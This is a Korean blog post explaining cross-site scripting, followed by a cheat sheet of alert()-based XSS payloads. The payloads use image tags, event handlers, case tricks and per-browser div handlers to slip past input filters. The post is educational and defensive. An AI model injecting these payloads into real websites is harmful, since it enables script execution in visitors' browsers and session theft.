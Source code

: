 ```yaml
---
layout: post
title: XSS(Cross-site Scripting) 공격에 대하여
---
```


오늘은 XSS(*Cross-site Scripting*)에 대해 알아보자.

## XSS란?

XSS는 일종의 Injection 공격으로, 웹사이트 보안이 취약한 부분에 주로 자바스크립트 코드를 삽입하여 특정 사람들의 정보를 빼가는 것을 노리는 공격이다. 하지만 XSS는 방어하기 어렵고 4년마다 한 번씩 출간되는 [OWASP Top 10](https://www.owasp.org/index.php/Category:OWASP_Top_Ten_Project#Translation_Efforts_2)에도 계속 올라온다.

그렇다면 XSS는 왜 방어하기 어려울까? 그 이유는 브라우저가 자바스크립트 코드를 실행할 수 있고, 사용자들이 브라우저로 신뢰하고 있는 웹사이트를 돌아다닐 때 해당 페이지에서 악의적인 코드가 문제없이 실행될 수 있기 때문이다. 결국, 피해자의 브라우저에서 공격자에 의해 스크립트를 실행시켜 사용자 세션을 탈취할 수 있게 만들고, 웹사이트를 변조시켜 악성 사이트로 리다이렉션할 수 있도록 만든다.

XSS 공격을 막으려면 웹 페이지 입력 폼에서 올바른 유효성 검사 또는 필터링 처리 기능을 추가하고, 신뢰할 수 없는 데이터를 포함하지 않아야 한다.

## XSS Scripts

그렇다면 XSS 공격 스크립트들은 어떤 것이 있는지 알아보자. 공격자가 어떤 스크립트를 웹 페이지에 삽입하는지 확인할 수 있다.

### 기본적인 필터링이 없을 경우
```html
<form id="test"></form><button form="test" formaction="javascript:alert(1)">X</button>
<script>alert(123)</script>
<script>alert("hellox worldss");</script>
```

### 이미지 태그를 이용한 경우
```html
<IMG SRC="javascript:alert('XSS');">
<IMG DYNSRC="javascript:alert('XSS')">
<IMG LOWSRC="javascript:alert('XSS')">
<img src="javascript:alert('XSS');">
<img src=javascript:alert(&quot;XSS&quot;)>
<picture><source srcset="x"><img onerror="alert(1)"></picture>
<picture><img srcset="x" onerror="alert(1)"></picture>
<img srcset=",,,,,x" onerror="alert(1)">
```

### 따옴표(*Quotes*), 세미콜론(*Semicolon*)이 없는 경우
```html
<IMG SRC=javascript:alert('XSS')>
<IMG SRC=javascript:alert(&quot;XSS&quot;)>
```

### 대소문자 구별이 없는 경우
```html
<IMG SRC=JaVaScRiPt:alert('XSS')>
```

### <script> 태그를 사용하지 않는 경우
```html
<form id="test"></form><button form="test" formaction="javascript:alert(1)">X</button>
<video poster=javascript:alert(1)//></video>
<body oninput=alert(1)><input autofocus>
<? foo="><script>alert(1)</script>">
<! foo="><script>alert(1)</script>">
</ foo="><script>alert(1)</script>">
<? foo="><x foo='?><script>alert(1)</script>'>">
<! foo="[[[Inception]]"><x foo="]foo><script>alert(1)</script>">
<% foo><x foo="%><script>alert(123)</script>">
```

### <div> 태그를 사용한 경우(각 브라우저 별로 정리)
```html
<!-- Chrome, Opera, Safari and Edge -->
<div onfocus="alert(1)" contenteditable tabindex="0" id="xss"></div>
<div style="-webkit-user-modify:read-write" onfocus="alert(1)" id="xss">
<div style="-webkit-user-modify:read-write-plaintext-only" onfocus="alert(1)" id="xss">

<!-- Firefox -->
<div onbeforescriptexecute="alert(1)"></div>
<script>1</script>

<!-- IE10/11 & Edge -->
<div style="-ms-scroll-limit:1px;overflow:scroll;width:1px" onscroll="alert(1)">

<!-- IE10 -->
<div contenteditable onresize="alert(1)"></div>

<!-- IE11 -->
<div onactivate="alert(1)" id="xss" style="overflow:scroll"></div>
<div onfocus="alert(1)" id="xss" style="display:table">
<div id="xss" style="-ms-block-progression:bt" onfocus="alert(1)">
<div id="xss" style="-ms-layout-flow:vertical-ideographic" onfocus="alert(1)">
<div id="xss" style="float:left" onfocus="alert(1)">

<!-- Chrome, Opera, Safari -->
<style>@keyframes x{}</style>
<div style="animation-name:x" onanimationstart="alert(1)"></div>

<!-- Chrome, Opera, Safari -->
<style>
div {width: 100px;}
div:target {width: 200px;}
</style>
<div id="xss" onwebkittransitionend="alert(1)" style="-webkit-transition: width .1s;"></div>

<!-- Safari -->
<div style="overflow:-webkit-marquee" onscroll="alert(1)"></div>
```

나중에 기회가 된다면 sqlmap같은 도구를 XSS 취약점 점검 도구 버전으로 개발해보고 싶다. xssmap? 사실 사람들이 개인적으로 만든 퍼저(*Fuzzer*)들이 많지만, 플랫폼 또는 언어를 통합할 수 있다면 좋을 것 같다.
